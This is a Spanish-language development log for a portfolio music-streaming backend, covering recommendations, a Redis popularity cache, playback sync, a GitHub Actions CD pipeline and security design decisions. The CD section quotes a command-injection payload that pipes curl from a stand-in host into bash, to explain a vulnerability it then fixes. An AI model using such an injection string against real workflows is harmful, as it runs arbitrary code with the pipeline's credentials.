`docker-compose.yml` sobreescribe el `entrypoint:` de `celery-worker`/`celery-beat` a `["celery"]`
(no el `docker/entrypoint.sh` de `app`, que migra) para no disparar tres migraciones concurrentes en
cada `docker compose up` — en su lugar dependen de `app: condition: service_healthy` como señal de
"las migraciones ya están aplicadas".

**Encontrado en implementación, no en la revisión del plan**: `_run_recompute` (la lógica real,
separada del wrapper `@celery_app.task`) recibe la URL de la base de datos como parámetro — si los
tests llamaran directo a la task decorada, crearía su propio engine contra `settings.database_url`
(producción/dev), no `settings.test_database_url`, tocando la base equivocada. Esta separación
permite a los tests pasar `settings.test_database_url` explícitamente.

16 tests nuevos en `tests/test_recommendations.py`: `rank_recommendations_for_user` con estructuras
en memoria (afinidad, exclusión de ya reproducidas, ambos fallbacks, límite), `fetch_ready_songs`/
`fetch_play_aggregates` contra Postgres real, `store_recommendations`/`get_recommendations` contra
Redis real, `_run_recompute` completo contra Postgres/Redis reales de test (sin `.delay()`, sin
broker), una aserción barata de que el nombre de la task en `beat_schedule` coincide con una task
realmente registrada (`celery_app.tasks`), el endpoint `GET /users/me/recommendations` (vacío antes
del primer ciclo, orden preservado, `401`), y el registro de plays en `GET /songs/{id}/stream`
(incluyendo que un fallo del insert no rompe el streaming). Verificado también manualmente contra
el stack dockerizado completo: `celery-worker`/`celery-beat` conectan al broker real
(`redis://redis:6379/1`, confirmado en logs), un `celery -A app.worker call ...` manual dispara la tarea real
y las recomendaciones aparecen en Redis y en el endpoint.

**Fase 12 — Caché de contenido popular.** Nuevo endpoint `GET /songs/popular` (`app/api/songs.py`,
registrado antes de `/{song_id}`, mismo motivo Starlette ya documentado para `/search`) y nuevo
módulo `app/services/popular.py`: `fetch_popular_song_ids` (una query agregada,
`song_plays` JOIN `songs` filtrando `status="ready"`, `GROUP BY song_id ORDER BY COUNT(*) DESC`) y
`get_popular_song_ids` (cache-aside clásico contra una única clave global de Redis,
`songs:popular`, TTL 5 min). **Técnica deliberadamente distinta a la Fase 11**: en vez de
precalcular en background con Celery Beat, el ranking se calcula bajo demanda en el primer request
que encuentra el caché vacío o expirado — dos patrones de caché/rendimiento diferentes en el mismo
proyecto, no el mismo mecanismo repetido. Sin personalización (misma lista para todo el mundo, a
diferencia de las recomendaciones) y sin lock anti-stampede (riesgo aceptado y documentado, la
query es barata y el tráfico esperado de un portfolio no lo justifica).

Pequeño refactor acompañante: `app/core/redis_client.py` (cliente Redis compartido a nivel de
módulo) — `app/api/users.py` (Fase 11) ya instanciaba el suyo propio para leer recomendaciones;
esta fase necesitaba el mismo cliente en `app/api/songs.py`, así que se extrajo a un módulo
compartido en vez de duplicar la instanciación (y el `# type: ignore[no-untyped-call]` que la
acompaña) una tercera vez. `decode_responses=True` se preservó explícitamente — `get_recommendations`
ya asume `str`, no `bytes`, vía un `cast` que se habría roto silenciosamente de cambiar ese flag.

**Detalle de diseño no trivial, encontrado en la revisión del plan**: el caché siempre se llena al
tamaño máximo (100 IDs), nunca al `limit` pedido por la request que causó el miss, y el recorte al
`limit` real ocurre en el lado de lectura — sin esto, una primera request con `limit=10` dejaría un
caché corto que no podría servir una request posterior con `limit=50` hasta el siguiente TTL. La
relectura de `Song` por IDs SÍ re-filtra `.where(Song.status == "ready")` (a diferencia del
endpoint de recomendaciones de la Fase 11, que no re-filtra) — hallazgo de la revisión del plan,
confirmado por dos revisores independientes: defensa en profundidad barata, sin coste real, aunque
hoy no exista ninguna transición ready→otro-estado que la haga necesaria.

13 tests en `tests/test_popular.py` (11 en la implementación inicial + 2 añadidos en la revisión
post-implementación): `fetch_popular_song_ids` contra Postgres real (ranking por conteo, exclusión
de no-`"ready"`, respeta `limit`), `get_popular_song_ids` con una prueba real de cache-hit (se
manipula la clave de Redis con un payload centinela que Postgres jamás produciría, y se confirma
que la segunda llamada devuelve ESE payload, no un recálculo), expiración simulada borrando la
clave directamente (sin `sleep` real), el detalle de "cachear al máximo" verificado con dos `limit`
distintos sobre el mismo caché, el endpoint completo (ranking, `limit`, `401`, exclusión de
no-`"ready"`, dos usuarios distintos ven la misma lista, `limit` inválido → `422`), degradación con
gracia si Redis falla (hallazgo de la revisión: `get_popular_song_ids` cae a calcular directo
contra Postgres en vez de propagar el error), y un test que envenena el caché con un ID
colgante/no-`"ready"` golpeando el ENDPOINT directamente (hallazgo de la revisión: el filtro
defensivo de la relectura nunca se ejercitaba porque `fetch_popular_song_ids` ya filtra `"ready"`
al escribir). Verificado también manualmente contra el stack dockerizado: reproducir una canción,
primera llamada a `/songs/popular` calcula y cachea (`TTL` confirmado en `redis-cli` = 300),
segunda llamada devuelve lo mismo, y tras `DEL` manual de la clave, la siguiente llamada recalcula.

**Fase 13 — Sincronización entre dispositivos.** Nuevo router `app/api/playback.py`
(`prefix="/users"`, URL final `/users/me/playback`, archivo separado por dominio de recurso propio
aunque comparta prefijo con `app/api/users.py`), nuevo schema `app/schemas/playback.py`
(`PlaybackStateUpdate`/`PlaybackState`) y nuevo servicio `app/services/playback.py`
(`set_playback_state`/`get_playback_state`, clave `playback:{user_id}` en Redis, TTL 24h).
**Decisión explícita del usuario**: REST simple (`PUT`/`GET`), last-write-wins, sin WebSockets ni
infraestructura de tiempo real — proyecto backend-focused sin UI de reproducción real (Fase 9) que
consumiera push en vivo de todas formas.

`PUT /users/me/playback` valida que `song_id` exista (`404`) y esté `status="ready"` (`409` — mismo
patrón exacto que `get_song_stream_url` de la Fase 9), sella `updated_at` con la hora del SERVIDOR
(nunca la del cliente, mismo principio ya aplicado a `created_at`/`played_at`), y guarda el estado.
`GET /users/me/playback` devuelve `404` si nunca se reportó nada — **deliberadamente distinto** de
`GET /users/me/recommendations` (Fase 11) o `GET /songs/popular` (Fase 12), que devuelven
`200`+lista vacía: aquí el recurso es un objeto singular, no una lista, así que "nada reportado
todavía" se modela como recurso inexistente, no como un objeto vacío artificial.

**Bug real encontrado en la revisión del plan, antes de escribir código**: el diseño original
construía el estado con `updated_at` como objeto `datetime` y lo pasaba directo a
`json.dumps` dentro de `set_playback_state` — `json.dumps` no serializa `datetime` por defecto,
así que cada `PUT` habría respondido `500`. Corregido serializando con
`PlaybackState(...).model_dump(mode="json")` en el endpoint antes de pasar el dict a
`set_playback_state` — Pydantic sí sabe volcar `datetime` a ISO 8601 en modo JSON.

**Honestidad de alcance, también encontrada en la revisión del plan**: `device_id` se guarda y se
devuelve, pero nunca es parte de la clave de Redis y nunca se consulta por separado — es metadata
de "quién escribió el estado por última vez", no un sistema de tracking per-dispositivo. El diseño
entrega un **único puntero global "reproduciendo ahora" por usuario**, compartido entre todos sus
dispositivos (todos convergen a ver lo mismo), no un estado independiente por cada uno. También de
esa revisión: la causa real de un "last write" incorrecto no es tanto que dos dispositivos
compitan en la red (el servidor sella `updated_at` al RECIBIR, así que el orden de llegada ya ES el
"last write" por definición) — el escenario real es un **reintento automático o request duplicada
del MISMO cliente**, que reenvía un cuerpo con posición ya vieja y sobreescribe con datos obsoletos
un estado más fresco de otro dispositivo.

14 tests en `tests/test_playback.py` (13 en la implementación inicial + 1 añadido en la revisión
post-implementación): round-trip del servicio contra Redis real, `PUT` (éxito con `updated_at` del
servidor, `404`/`409` según estado de la canción, `422` en `position_seconds` negativo/`device_id`
vacío, `401`), un test que envía un `updated_at` falso en el body y confirma que el servidor lo
ignora por completo (hallazgo de la revisión: el test original solo comprobaba que el campo
existía, no que fuera realmente el del servidor), `GET` (`404` sin estado previo, `200` con el
último tras un `PUT`, `401`), el **escenario central de la fase** (dos "dispositivos" hacen `PUT`
en secuencia, el segundo sobreescribe al primero, `GET` devuelve el del segundo — last-write-wins
real de punta a punta vía HTTP), y aislamiento entre usuarios (propiedad opuesta a la de `GET
/songs/popular`: cada uno ve solo lo suyo). Verificado también manualmente contra el stack
dockerizado: dos `curl` simulando dispositivos distintos, `GET` final confirma el estado del
segundo.

**Fase 14 — CD (staging/producción, rollback).** Reescrito por completo `.github/workflows/cd.yml`
(placeholder vacío desde el scaffolding de Fase 0). **Sin servidor/VPS/cuenta de nube real**
(decisión explícita del usuario) — "staging" y "producción" se modelan como dos TAGS de la misma
imagen en GitHub Container Registry (ghcr.io, gratis, usa el `GITHUB_TOKEN` ya disponible, sin
credenciales nuevas), no como entornos reales. `staging` se mueve automáticamente en cada push a
`main` que pasa CI en verde (`workflow_run` sobre el workflow `CI`); `production` solo se mueve con
una acción manual (`workflow_dispatch`, input `target_sha`). **Promover a producción y hacer
rollback son la MISMA operación** (decisión de diseño deliberada): apuntar `production` a un SHA
ya publicado, más nuevo (promoción) o más viejo (rollback) que el actual — forzar dos jobs
distintos para la misma operación de registry habría sido artificial.

**Hallazgo real y bloqueante de la revisión del plan, corregido antes de escribir código**:
interpolar `${{ inputs.target_sha }}` directo dentro de un bloque `run:` de bash es inyección de
comandos — GitHub Actions sustituye la expresión textualmente en el script ANTES de que bash lo
ejecute, las comillas dobles no protegen. Un `target_sha` como `x"; curl evil.sh | bash; "`
ejecutaría comandos arbitrarios con el token del runner (`packages: write`). Corregido pasando el
input por `env:` (variable de entorno real, no texto sustituido) más una validación de formato
(`^[0-9a-f]{7}$`) como defensa en profundidad adicional — dos revisores independientes confirmaron
el mismo hallazgo de forma separada.

Otros hallazgos de la revisión, todos incorporados: falta de `docker/setup-buildx-action` antes de
`build-push-action` (la action oficial lo requiere/recomienda); falta de un guard de
`concurrency:` (dos pushes seguidos a `main` podrían competir por el tag `staging`, mismo patrón ya
usado en `ci.yml`); un comentario ancla en el propio `cd.yml` documentando que "CI success implica
que el job `docker` de `ci.yml` también pasó" es una propiedad emergente de cómo está escrito hoy
`ci.yml` (`docker` no tiene `if:` propio, solo `needs: test`), no algo que `cd.yml` fuerce por sí
mismo — para que un cambio futuro en `ci.yml` no rompa esa garantía silenciosamente. Verificado
también que es seguro hacer público el paquete: el `Dockerfile` nunca hace `COPY . .`, sin
`ARG`/`ENV` con secretos horneados.

**Corrección de método de verificación, encontrada en la revisión del plan**: la API REST de
Packages de GitHub exige token incluso para paquetes públicos, a diferencia de la API de
repos/Actions/PRs usada sin token en todas las fases anteriores — el método realmente sin-token
para confirmar que un tag existe es `docker buildx imagetools inspect ghcr.io/<owner>/<repo>:<tag>`
(pull anónimo contra el registry) — se esperaba que solo funcionara tras hacer público el paquete a
mano (GHCR lo publica privado por defecto en general), pero la verificación real tras el merge
mostró que en este caso concreto ya era público de inmediato, sin paso manual (ver Decisiones
técnicas más abajo para el detalle).

`docker buildx imagetools create` (no un rebuild) para mover `production`: operación
registry-a-registry que copia el manifest existente sin reconstruir ni resubir capas — promueve
exactamente los mismos bytes ya probados en CI. `build-and-push` SÍ reconstruye la imagen (no
reutiliza el artefacto exacto del job `docker` de `ci.yml` sobre el mismo commit) y NO repite su
smoke test — simplificación aceptada y documentada, con la imagen base pinneada
(`python:3.12.7-slim-bookworm`) el riesgo de deriva entre ambos builds es bajo, y reutilizar el
artefacto exacto exigiría subir/bajar la imagen como artifact intermedio entre workflows.

**Sobre el placeholder que fallaba en cada push (investigado, no resuelto de forma concluyente)**:
el `cd.yml` original (`on: workflow_dispatch: {}`, sin jobs) aparecía como un "run" fallido en la
API de GitHub Actions en cada push a `main` desde hacía varias fases, pese a no tener trigger
`push` en ningún commit de su historia — sin logs autenticados (403 sin token) no fue posible
determinar la causa exacta durante la planificación. Verificado tras el merge de esta fase si el
comportamiento desapareció al darle contenido real (ver Riesgos conocidos).

## Diagrama de arquitectura

Distinción clave visible en el diagrama: la API nunca reenvía bytes de audio — genera una URL
presignada de MinIO (`control plane`) y el cliente descarga directamente de MinIO (`data plane`),
decisión central de la Fase 9. `celery-worker` lee `song_plays`/`songs` de Postgres pero escribe el
resultado (`recommendations:{user_id}`) en Redis, no en Postgres — no existe un modelo
`Recommendation`, la API sirve `GET /users/me/recommendations` leyendo esa misma key. El nodo "VPS
único" está fuera del sistema implementado — representa el diseño teórico de la siguiente sección,
no una réplica desplegada.

## Fases implementadas vs diseño teórico

Esta tabla distingue qué partes del proyecto están realmente implementadas y funcionando, y
cuáles quedan como diseño documentado (explicado pero no construido, por alcance/tiempo de un
proyecto de portfolio).

| Fase | Descripción                              | Estado        |
| ---- | ----------------------------------------- | ------------- |
| 0    | Scaffolding del proyecto                  | ✅ Implementado |
| 1    | API base y autenticación (JWT)            | ✅ Implementado |
| 2    | UI de login y toggle de premium           | ✅ Implementado |
| 3    | 2FA (TOTP)                                | ✅ Implementado |
| 4    | Calidad de código local                   | ✅ Implementado |
| 5    | CI                                        | ✅ Implementado |
| 6    | Rate limiter con Redis                    | ✅ Implementado |
| 7    | Contenedores                              | ✅ Implementado |
| 8    | Subida y transcodificación de audio       | ✅ Implementado |
| 9    | Streaming de audio                        | ✅ Implementado |
| 10   | Búsqueda                                  | ✅ Implementado |
| 11   | Recomendaciones precalculadas (Celery)    | ✅ Implementado |
| 12   | Caché de contenido popular                | ✅ Implementado |
| 13   | Sincronización entre dispositivos         | ✅ Implementado |
| 14   | CD                                        | ✅ Implementado |
| 15   | Documentación final                       | ✅ Implementado |

## Decisiones técnicas

_Se documentará cada decisión (por qué Redis, por qué token bucket, por qué TOTP, etc.) en la
fase en que se toma. Por ahora, las de la Fase 1:_

**Fase 1 — API base y autenticación**

- **SQLAlchemy 2.0 (estilo `Mapped`/declarative) en vez de SQLModel**: separa explícitamente el
  modelo de persistencia (`app/models/`) de los schemas de validación de API (`app/schemas/`),
  patrón más cercano a cómo se estructura un backend real de producción.
- **Refresh token persistido y revocable en Postgres, no JWT stateless**: permite un `logout`
  real que invalida la sesión en el servidor, no solo en el cliente.
- **Rotación del refresh token en cada `/auth/refresh` + detección de reuso**: cada uso de un
  refresh token lo revoca y emite uno nuevo (misma `family_id`). Si se reutiliza un token ya
  revocado, se asume robo y se revoca toda la `family_id` (patrón usado por Auth0/Okta). Esto
  significa que dos requests concurrentes con el mismo token (doble pestaña, retry de red)
  invalidan la sesión completa como medida de seguridad — es el comportamiento esperado, no un
  bug (protegido con `SELECT ... FOR UPDATE` para que sea determinista bajo concurrencia real; ver
  `tests/test_auth.py::test_refresh_concurrent_requests_only_one_succeeds`).
- **Refresh token en cookie `httpOnly` + `Secure` (configurable) + `SameSite=Lax`; access token
  JWT en el body JSON**: el refresh token no es accesible desde JavaScript (mitiga XSS). El access
  token vive en memoria en el cliente. `SameSite=Lax` es la mitigación de CSRF aceptada para este
  proyecto — no es CSRF-proof al 100% (no protege ante subdominios comprometidos ni sustituye un
  token CSRF dedicado), pero es un compromiso razonable para el alcance de un portfolio.
- **SHA-256 para `token_hash`, no bcrypt**: el refresh token ya es aleatorio de alta entropía
  (`secrets.token_urlsafe(32)`); bcrypt está pensado para contraseñas de baja entropía, trunca a
  72 bytes y su salt variable impide indexar por hash. SHA-256 permite lookup indexado directo.
- **bcrypt directo para contraseñas, sin `passlib`**: `passlib[bcrypt]` tiene un bug de
  compatibilidad conocido con `bcrypt>=4.1` y el proyecto está prácticamente sin mantenimiento.
- **PyJWT en vez de `python-jose`**: más activamente mantenido.
- **psycopg3 (`psycopg[binary]`) en vez de psycopg2**: driver moderno recomendado hoy por
  SQLAlchemy.
- **Alembic desde la Fase 1**: evita tener que migrar "a mano" un esquema ya creado con
  `create_all()` más adelante.
- **Postgres adelantado a la Fase 1** (en vez de esperar a la Fase 7): la Fase 1 necesita una base
  de datos real para el modelo de usuario; se adelanta solo el contenedor de Postgres en
  `docker-compose.yml`, el resto del stack completo (API dockerizada, healthchecks cruzados) queda
  para la Fase 7 — **implementado en Fase 7**, ver esa sección.
- **Mitigación de timing side-channel en `/auth/login`**: cuando el email no existe, se ejecuta
  igualmente un hash bcrypt contra un valor "dummy" para que la respuesta tarde lo mismo que con
  una contraseña incorrecta, evitando enumerar emails registrados por diferencia de tiempo.
- **`JWT_SECRET_KEY` no puede quedar en su valor placeholder**: `Settings` rechaza arrancar si
  sigue en `"change-me"` (falla rápido en vez de firmar tokens con un secreto público conocido).

**Fase 2 — UI mínima y toggle de premium**

- **UI mínima integrada en FastAPI, no frontend separado**: HTML/CSS/JS vanilla servido como
  estáticos por la propia API (mismo origen, sin CORS, sin build tooling). Justificación completa
  en el README (sección "Frontend: UI integrada vs frontend separado") — el foco de este proyecto
  es backend, no frontend.
- **Formulario de registro incluido en la UI** (no solo login): permite probar el flujo completo
  desde el navegador sin pasar antes por curl/pytest.
- **"Silent refresh" al cargar la página**: `POST /auth/refresh` (la cookie httpOnly viaja sola)
  al iniciar, para no perder la sesión en cada recarga — el access token vive solo en una variable
  JS en memoria, no en `localStorage`.
- **PATCH con valor explícito `is_premium`, no un "toggle puro"**: evita que un reintento de red
  invierta el estado dos veces sin que el usuario lo note.
- **Matiz sobre "access token en memoria, no localStorage"**: reduce el robo *pasivo* (una
  extensión de navegador maliciosa u otro script leyendo `localStorage`), pero **no** protege
  frente a un XSS activo en la propia página — con ejecución de JS arbitraria ahí, un atacante no
  necesita leer la variable: puede llamar él mismo a `POST /auth/refresh` (la cookie se envía
  igual; `httpOnly` bloquea la *lectura* por JS, no el *envío* por el navegador) o interceptar
  `fetch`/`XMLHttpRequest` para capturar el header `Authorization` en la próxima llamada real. No
  se presenta como mitigación de XSS, solo de robo pasivo de credenciales en reposo.

**Fase 3 — 2FA (TOTP)**

- **pyotp, no implementación manual del algoritmo**: aunque el enunciado permitía cualquiera de
  las dos, pyotp usa `hmac.compare_digest` internamente (verificado leyendo su código fuente, no
  asumido) — comparación en tiempo constante, resistente a timing attacks, algo fácil de hacer
  mal en una implementación propia de código de seguridad.
- **Fernet (`cryptography`) para cifrar el secreto TOTP en reposo**: cifrado simétrico
  autenticado. `TOTP_ENCRYPTION_KEY` se valida al arranque con el mismo patrón que
  `JWT_SECRET_KEY` — rechaza el placeholder `change-me` y además valida que sea una key Fernet
  bien formada, para fallar rápido en vez de reventar en el primer login con 2FA.
- **Ventana de tolerancia `valid_window=1` (±30s)**: por posible desfase de reloj entre servidor
  y dispositivo, tal como pide el enunciado.
- **Lockout ad-hoc en Postgres (5 intentos fallidos → 15 min de bloqueo), implementado ya en esta
  fase, no pospuesto a Fase 6**: un código de 6 dígitos es un espacio de búsqueda pequeño y fijo
  (10^6, ampliado a 3 códigos válidos simultáneos por la ventana de tolerancia) — sin límite es
  fuerza bruta realmente explotable, no un riesgo teórico (así lo señaló la revisión de seguridad
  del plan antes de implementar). Compartido entre `/2fa/verify` y la verificación TOTP de
  `/users/me/premium/activate` — es la misma prueba de posesión del dispositivo. Protegido con
  `SELECT ... FOR UPDATE` + `populate_existing=True` para que sea correcto bajo concurrencia real
  (ver detalle en el Resumen de esta fase).
- **`POST /2fa/setup` exige contraseña**, no solo un access token válido: por simetría con
  `/premium/activate`, y porque sin esto un access token robado (30 min, riesgo ya documentado en
  Fase 1) permitiría configurar 2FA sobre la cuenta de la víctima sin conocer su contraseña.
- **Reemplazo de `PATCH /users/me/premium` (Fase 2) por `activate`/`deactivate` explícitos**: un
  solo endpoint con requisitos distintos según la dirección del cambio (activar exige
  password+TOTP, desactivar no exige nada extra) es peor diseño que dos endpoints explícitos.
- **Activar premium exige 2FA ya confirmado** (403 si no): la protección contraseña+TOTP no tiene
  sentido si el usuario nunca configuró el segundo factor: se le pide configurarlo primero en vez
  de permitir una activación "más débil" sin él.

**Fase 4 — Calidad de código local**

- **mypy en modo `--strict` completo**, no un subconjunto: decisión explícita del usuario,
  asumiendo el coste de corregir el código ya escrito (ver Resumen) a cambio de mantener ese
  rigor en las fases siguientes desde el primer commit de cada una, en vez de ir acumulando deuda
  de tipado para corregir toda de golpe más adelante.
- **`requirements-dev.txt` separado de `requirements.txt`**: las herramientas de Fase 4 (pytest,
  ruff, black, mypy, pre-commit) son de desarrollo, no de runtime — relevante de cara a la Fase 7,
  donde la imagen Docker de producción no necesita ninguna de ellas instalada.
- **pytest fuera de pre-commit**: necesita Postgres corriendo en Docker; atarlo a cada commit
  sería frágil (falla si Docker no está arriba) y cada vez más lento a medida que crece la suite.
  Queda para CI (Fase 5) y para correrlo manualmente.
- **`mypy` como hook local de pre-commit** (`language: system`) en vez del mirror oficial:
  resolver los tipos de FastAPI/SQLAlchemy/Pydantic correctamente requiere el entorno real del
  proyecto instalado. Trade-off aceptado: el hook depende de que el venv esté activado en la
  terminal donde se commitea (documentado en el README), a cambio de no duplicar a mano la lista
  de dependencias en `additional_dependencies`.
- **`pytest-cov` sin `--cov-fail-under` todavía**: se mide la cobertura real (94%, ver Resumen)
  antes de comprometerse a un umbral — fijar uno arbitrario sin conocer el número real podría
  bloquear commits legítimos o quedar puesto artificialmente bajo. Se revisa en Fase 5.

**Fase 5 — CI (GitHub Actions)**

- **`--cov-fail-under=85`**, no el 94% real medido: deja margen razonable para fluctuaciones
  normales fase a fase sin que el CI se ponga rojo por una caída pequeña y esperable, pero sí
  bloquea una regresión real y significativa de cobertura en un PR futuro.
- **DB de test creada en un paso explícito con `psycopg`, no vía bind-mount de
  `docker/postgres-init/`**: los service containers de GitHub Actions arrancan antes de que
  exista el checkout del repo, así que el mecanismo que funciona en local/docker-compose no es
  aplicable en CI. `CREATE DATABASE` se ejecuta con `autocommit=True` explícito (Postgres no
  permite ese comando dentro de una transacción) contra la base `spotify_clone` (que sí existe
  desde el arranque del servicio, vía `POSTGRES_DB`), no contra `spotify_clone_test` (que aún no
  existe en ese momento).
- **`JWT_SECRET_KEY`/`TOTP_ENCRYPTION_KEY` como GitHub Secrets, no hardcodeados en el YAML**:
  aunque son valores efímeros de CI sin ningún dato real detrás, la regla de "nunca secretos en
  un repo público, ni falsos" evita por completo el riesgo de que alguien copie ese valor "que ya
  funciona" a un `.env` real más adelante por conveniencia.
- **Branch protection configurada manualmente por el usuario, no por mí**: no hay `gh` CLI
  instalada en el entorno de desarrollo de este proyecto; instrucciones paso a paso en el README
  en vez de intentarlo por la API REST directamente con curl y un token.
- **Rama + PR real para esta fase, no commit directo a `main`**: a diferencia de las Fases 0-4
  (commiteadas directo a `main`), esta se hizo vía PR para que el workflow de CI corriera de
  verdad contra la matriz de Python antes de mergear — la primera demostración real de que
  funciona, no solo de que la sintaxis del YAML es válida.

**Fase 6 — Rate limiter con Redis**

- **Token bucket, no ventana fija**: refill continuo evita el efecto de ráfaga doble en el borde
  entre dos ventanas (hasta 2N requests pegadas al minuto natural con un contador simple). Detalle
  y comparación en el README (sección "Rate limiting con Redis").
- **Script Lua atómico (`EVAL`), no varias llamadas Redis separadas**: lectura + cálculo de refill
  + decremento + escritura en un único paso serializado por Redis, mismo motivo que
  `SELECT ... FOR UPDATE` en Postgres (Fases 1 y 3) — sin esto, dos requests concurrentes de la
  misma identidad podrían leer el mismo `tokens` antes de que ninguna escriba.
- **Dos tiers (`sensitive`/`general`), no un límite uniforme**: un único límite no protege de
  verdad login/registro/2FA-setup (habría que ponerlo muy bajo, molestando el uso normal de la
  API) ni tiene sentido ser igual de estricto en endpoints que no son objetivo de fuerza bruta.
- **`/2fa/verify` y `/users/me/premium/activate` en el tier `general`, no `sensitive`, pese a ser
  sensibles**: ya tienen el lockout de TOTP de la Fase 3 (5 intentos → 15 min en Postgres), más
  estricto que cualquier tier de este rate limiter. Aplicarles además el tier `sensitive` haría
  que el 429 del middleware (segundos de reset, mensaje genérico) se disparase antes que el 429
  del lockout (minutos de reset, mensaje específico) — dos relojes y mensajes distintos según cuál
  gane la carrera. Con capacidad 60 en `general`, el lockout (dispara a los 5 intentos) siempre
  actúa primero.
- **`/auth/refresh` en `general`, no `sensitive`**: el refresh token es aleatorio de 256 bits
  (`secrets.token_urlsafe(32)`), no adivinable por fuerza bruta bajo ningún límite de rate
  razonable — su protección real es la entropía más la detección de reuso (Fase 1), no el rate
  limiting.
- **Identidad por `user_id` (del JWT, sin tocar la DB) o IP si no hay token — EXCEPTO en
  `/auth/login` y `/auth/register`, siempre por IP**: protege también los endpoints públicos
  (login, registro, 2FA antes de confirmar) donde todavía no hay usuario. La excepción no es
  cosmética: login/registro no leen el header `Authorization` para autenticar, así que un Bearer
  adjuntado ahí no prueba nada sobre quién hace la request — ver el bug real #2 descrito en el
  Resumen de esta fase (encontrado en la ronda de revisión Agent Teams, no en el diseño inicial).
  **Asunción explícita** sobre el fallback a IP: no hay proxy inverso delante de la API en este
  despliegue, así que `request.client.host` es la IP real de la conexión TCP — el código no lee
  `X-Forwarded-For` (no falsificable hoy). El día que se ponga un proxy/CDN delante (Fase 9/15),
  todas las conexiones se verían con la IP del proxy, fusionando buckets de usuarios distintos;
  fuera de alcance de esta fase, documentado como asunción a revisitar, no como bug.
- **Fail-open si Redis no responde**: la request pasa igual (se loguea el fallo), prioriza
  disponibilidad sobre bloquear toda la API por una caída de infraestructura. No es solo un riesgo
  operacional — ver el escenario de ataque explícito en Riesgos conocidos. Se decidió no
  implementar un fallback de lockout en Postgres independiente de Redis para login/registro:
  duplicaría el propósito de esta fase y añadiría alcance significativo fuera de lo pedido.
- **`BaseHTTPMiddleware`, no ASGI puro**: los problemas conocidos de `BaseHTTPMiddleware` (pérdida
  de `request.state`, manejo de excepciones al encadenar con otros middlewares) aplican sobre todo
  con varios middlewares interactuando — aquí es el único de la app. El patrón
  `dispatch(request, call_next)` es sustancialmente más simple de escribir/testear que ASGI puro
  para esta lógica. Revisar si conviene migrar cuando se añadan más middlewares (ej. CORS si se
  separa el frontend en una fase futura).
- **Cliente Redis síncrono + `run_in_threadpool`, no `redis.asyncio`**: ver el bug real descrito en
  el Resumen de esta fase — un cliente async queda ligado al event loop en el que se usa por
  primera vez, riesgo real de arquitectura, no solo un artefacto de tests.

**Fase 7 — Contenedores**

- **Multi-stage, aunque casi ninguna dependencia necesite compilarse**: verificado explícitamente
  (revisión DevOps) que `psycopg[binary]`, `cryptography`, `bcrypt`, `qrcode[pil]` publican wheels
  manylinux para `python:3.12-slim` — no hace falta gcc/libpq-dev/libffi-dev del sistema. El
  multi-stage aquí no ahorra un toolchain de compilación real (a diferencia del caso de uso típico
  que lo justifica); su valor es separar la etapa de build (pip, caché) de la imagen final, y
  asegurar mecánicamente que `requirements-dev.txt` nunca llega a producción. Aceptado como la
  única pieza del diseño sin beneficio técnico contundente, pero consistente con demostrar
  prácticas de imagen de producción.
- **`ENV PATH="/opt/venv/bin:$PATH"` explícito tras copiar el venv entre stages**: paso
  imprescindible del patrón "copiar venv" que la primera versión de este plan omitió (hallazgo
  bloqueante de la revisión DevOps y del abogado del diablo antes de implementar) — sin él, ni
  `alembic` ni `uvicorn` existen en el `PATH` de la imagen final y el contenedor no arranca.
- **Import de `app.*` resuelto por `WORKDIR /app` + `prepend_sys_path = .` de `alembic.ini`, no por
  un `PYTHONPATH` extra**: la primera versión de este plan atribuía la solución del import a un
  `ENV PYTHONPATH=/app`, que en realidad no era la pieza que arreglaba nada (corregido tras la
  revisión, ver Resumen). Se mantiene de todos modos `PYTHONDONTWRITEBYTECODE=1
  PYTHONUNBUFFERED=1` por higiene (usuario no-root, logs sin buffer), no como fix de import.
- **Usuario no-root (`useradd --system`), sin necesidad de `chown` selectivo en runtime**:
  verificado (revisión de seguridad) que la app no escribe a disco en ningún momento de su
  ejecución normal (solo sirve `app/static` y loguea a stdout; `alembic upgrade head` solo escribe
  a Postgres) — el `chown -R app:app /app` del build es suficiente, no hace falta ningún volumen
  writable adicional.
- **Migraciones automáticas en el `ENTRYPOINT`, no un paso manual**: `docker/entrypoint.sh` corre
  `alembic upgrade head` antes de `exec`utar `uvicorn`. Riesgo aceptado a propósito, no resuelto en
  esta fase: con más de una réplica arrancando a la vez, cada una correría la migración de forma
  concurrente (Alembic no tiene locking distribuido incorporado) — aceptable mientras esta fase no
  levante réplicas reales; revisar si/cuando la Fase 14 (CD) las introduzca, moviendo la migración
  a un job/init-container separado de las réplicas de la API.
- **Secretos nunca horneados en la imagen**: el `Dockerfile` no copia `.env` ni recibe secretos vía
  `ARG`/`ENV` en build time; `docker-compose.yml` los pasa en runtime vía `env_file: .env`
  (secretos reales del desarrollador) combinado con `environment:` explícito solo para
  `DATABASE_URL`/`REDIS_URL`/`COOKIE_SECURE` (que necesitan apuntar a los hostnames internos de
  compose, no a `localhost`). `.dockerignore` excluye `.env` como defensa en profundidad adicional
  (el build context de `docker build .` sí incluye todo el directorio salvo lo excluido ahí, aunque
  el `Dockerfile` luego solo copie `app/`/`alembic.ini` explícitamente).
- **`COOKIE_SECURE: "false"` fijado explícitamente en el servicio `app` de compose, no delegado al
  `.env`**: el default real en `config.py` es `cookie_secure: bool = True` — sin este override, la
  verificación por `curl` del flujo completo (login→2FA→premium) sobre HTTP local habría fallado
  porque el cliente no reenvía la cookie `Secure` del refresh token (hallazgo confirmado por
  DevOps y el abogado del diablo antes de implementar).
- **`security_opt: no-new-privileges:true` + `cap_drop: ALL` solo en el servicio `app`**, no en
  `postgres`/`redis` (que podrían necesitar capacidades propias para su propio entrypoint/initdb):
  hardening barato y de alto valor de señal para un proyecto de portfolio, sin arriesgar romper
  imágenes de terceros ya funcionando. Se descartó explícitamente ir más lejos (`read_only:
  true`+tmpfs, límites de recursos) por ser sobre-ingeniería sin réplicas ni carga real que
  proteger en esta fase.
- **CI: pass-through de secrets (`docker run -e VAR`, sin `=valor` inline)**: el contenedor hereda
  el valor desde el `env:` del step en vez de interpolarlo en la línea de comando — evita que el
  secreto aparezca en `docker inspect`/logs del contenedor. Defensa en profundidad barata sobre
  secrets que ya son CI-only sin dato real detrás.
- **Base `python:3.12.7-slim-bookworm` pinneada a versión y tag exactos, no `3.12-slim` flotante**:
  reproducibilidad del build a cambio de un trade-off real reconocido explícitamente (revisión de
  seguridad): no recibe parches de seguridad del SO/Python automáticamente. Mantenimiento pendiente
  aceptado: rebuild/bump manual periódico de la versión pinneada.
- **La password de Postgres en `docker-compose.yml` (`user:password`) es la misma credencial
